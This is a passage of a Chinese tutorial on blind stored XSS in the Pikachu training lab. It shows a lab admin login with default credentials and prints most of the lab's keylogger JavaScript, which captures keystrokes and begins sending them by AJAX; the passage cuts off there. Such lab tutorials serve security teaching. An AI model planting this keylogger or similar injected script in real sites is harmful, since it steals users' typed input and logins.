 在 Pikachu 平台的 Cross-Site Scripting » XSS 之盲打菜单项下，攻击者提交恶意脚本代码：

![](http://img.wukaipeng.com/2023/1015-135414-image-20231015135414216.png)

当受害者登录后台：`http://YOUR_IP_ADDRESS:8081/vul/xss/xssblind/admin_login.php`（账号密码为：`admin/123456`）

可以看到我们的恶意脚本代码已经被执行了：

![](http://img.wukaipeng.com/2023/1015-135749-image-20231015135749281.png)

## 键盘记录

键盘记录是存储型的一种，将用户的键盘输入记录下来。

Pikachu 平台已经为我们提供了可用的键盘记录恶意脚本代码  `/var/www/html/pkxss/rkeypress/rk.js`：

```php
/**
 * Created by runner on 2018/7/8.
 */

function createAjax(){
    var request=false;
    if(window.XMLHttpRequest){
        request=new XMLHttpRequest();
        if(request.overrideMimeType){
            request.overrideMimeType("text/xml");
        }

    }else if(window.ActiveXObject){

        var versions=['Microsoft.XMLHTTP', 'MSXML.XMLHTTP', 'Msxml2.XMLHTTP.7.0','Msxml2.XMLHTTP.6.0','Msxml2.XMLHTTP.5.0', 'Msxml2.XMLHTTP.4.0', 'MSXML2.XMLHTTP.3.0', 'MSXML2.XMLHTTP'];
        for(var i=0; i<versions.length; i++){
            try{
                request=new ActiveXObject(versions[i]);
                if(request){
                    return request;
                }
            }catch(e){
                request=false;
            }
        }
    }
    return request;
}

var ajax=null;
var xl="datax=";

function onkeypress() {
    var realkey = String.fromCharCode(event.keyCode);
    xl+=realkey;
    show();
}

document.onkeypress = onkeypress;

function show() {
    ajax = createAjax();
    ajax.onreadystatechange = function () {
        if (ajax.readyState == 4) {
            if (ajax.status == 200) {
                var data = ajax.responseText;
            } else {
```